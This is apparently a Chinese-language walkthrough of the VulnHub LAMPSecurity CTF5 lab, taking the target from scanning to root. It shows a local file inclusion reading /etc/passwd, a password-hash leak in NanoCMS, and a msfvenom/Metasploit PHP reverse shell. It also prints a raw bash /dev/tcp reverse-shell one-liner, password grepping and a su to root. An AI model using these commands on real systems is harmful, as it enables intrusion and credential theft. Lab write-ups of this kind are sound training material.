

download:https://www.vulnhub.com/entry/lampsecurity-ctf5,84/

扫描之后发现是：`http://192.168.188.131`

`nmap -sV < 要扫描的目标ip地址>`*

```sh
┌──(root💀kali)-[/home/kali]
└─# nmap -sV 192.168.188.131                                                                                   130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-16 01:26 EST
Nmap scan report for 192.168.188.131
Host is up (0.0059s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        ipop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp  open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0500)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
MAC Address: 00:0C:29:44:6B:32 (VMware)
Service Info: Hosts: localhost.localdomain, 192.168.188.131; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
                                                                 
```

使用nikto扫下：

```sh
└─# nikto -h 192.168.188.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.188.131
+ Target Hostname:    192.168.188.131
+ Target Port:        80
+ Start Time:         2022-02-16 01:29:54 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.6 (Fedora)
+ Retrieved x-powered-by header: PHP/5.2.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.6 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /index.php: PHP include error may indicate local or remote file inclusion is possible.
^[[B^[[B^[[B+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server may leak inodes via ETags, header found with file /phpmyadmin/ChangeLog, inode: 558008, size: 22676, mtime: Mon Aug 20 22:59:12 2029
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /mail/src/read_body.php: SquirrelMail found
+ OSVDB-3093: /squirrelmail/src/read_body.php: SquirrelMail found
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8724 requests: 0 error(s) and 26 item(s) reported on remote host
+ End Time:           2022-02-16 01:30:19 (GMT-5) (25 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

可以看到有LFI/RFI

`http://192.168.188.131//index.php?page=../../../../../../../../../etc/passwd%00`

`root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin nscd:x:28:28:NSCD Daemon:/:/sbin/nologin tcpdump:x:72:72::/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin polkituser:x:87:87:PolicyKit:/:/sbin/nologin avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin haldaemon:x:68:68:HAL daemon:/:/sbin/nologin gdm:x:42:42::/var/gdm:/sbin/nologin patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash andy:x:502:502:Andrew Carp:/home/andy:/bin/bash loren:x:503:503:Loren Felt:/home/loren:/bin/bash amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash `

搜下底部关于nanocms的洞，：https://vulners.com/openvas/OPENVAS:100141

有个是密码散列信息泄露，允许不受限制地访问：/data/pagesdata.txt

```
a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:2:{i:0;i:1;i:1;i:4;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:2:{i:1;s:4:"home";i:4;s:7:"contact";}s:6:"titles";a:2:{i:1;s:4:"Home";i:4;s:7:"Contact";}s:10:"slug_count";i:11;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
```

得到admin的密码的hash解密为shannon

登进去后直接newpage，使用msfvenom反弹shell：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.188.129 lport=4444 -f raw
```


```sh
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.188.129
msf exploit(handler) > set lport 4444
msf exploit(handler) > run
```

或者直接：

```
<?php
system("bash -i >& /dev/tcp/192.168.188.129/4444 0>&1");
?>
--------
nc -lp 4444
```

通过以下命令在home下找root密码：

```
grep -R -i password /home/* 2> /dev/null
```



```sh
bash-3.2$ su
standard in must be a tty
bash-3.2$ python -c 'import pty;pty.spawn("/bin/sh")'
sh-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh-3.2$ su
su
Password: 50$cent

[root@localhost public_html]# whoami
whoami
root
[root@localhost public_html]# 
```

进去直接su的时候提示：`standard in must be a tty`，直接：`python -c 'import pty;pty.spawn("/bin/sh")'`

